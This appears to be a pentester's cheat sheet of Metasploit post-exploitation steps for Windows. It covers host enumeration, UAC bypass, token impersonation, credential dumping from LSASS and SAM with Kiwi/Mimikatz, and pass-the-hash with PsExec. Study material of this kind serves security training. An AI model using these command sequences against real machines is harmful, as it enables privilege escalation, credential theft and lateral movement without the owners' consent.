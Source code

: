 `search type:post platform:windows`

`use windows/manage/migrate` - create and migrate to a new process
`use post/windows/gather/win_privs` enumerate user privileges
`use post/windows/gather/enum_logged_on_users`
`use post/windows/gather/checkvm` - check whether you're in a virtual machine or not
`use post/windows/gather/enum_applications` - programs installed and their versions
`use post/windows/gather/enum_av_excluded` - check which folders are not scanned by av
`use post/windows/gather/enum_computers` - check if pc is part of a domain
`use post/windows/gather/enum_patches` - search for patches on operating system
`use post/windows/gather/enum_shares` - display current configured shares
`use post/windows/manage/enable_rdp` - enable rdp on the target

## Bypassing UAC

1. net users - see users of machine
2. net localgroup administrators - check if were part of administrators
3. background cmd
4. `search bypassuac` for a module
	1. make use of injection module
	2. set to correct payload to reflect 64 or 32 bit
	3. set correct target
5. use `getsystem` to pwn system and by pass uac
6. hashdump

## Token Impersonation (Incognito)

1. get meterpreter shell
2. `getprivs` - check our privileges, look for SeImpersonatePrivilege 
3. `load incognito`
4. `list_tokens -u `- look for token available
5. `impersonate_token` "token"
6. `migrate` to process run by the user you impersonated
7. `hashdump` for persistence

## Dumping hashes (Mimikatz/Kiwi)

extract plain text passwords from memory and from local SAM databases

need meterpreter shell

1. migrate to` pgrep lsass`
2. `load kiwi`
3. `creds_all`
4. `lsa_dump_sam`
5. `lsa_dump_secrets` - get syskey
6. use for pass the hash attack or crack ntlm hash

## Pass the hash with PsExec via SMB

1. get hashes from targer
2. `use exploit/windows/smb/psexec`
3. specify smbpass as hash (from number colon to last colon before multiple colons)
4. run
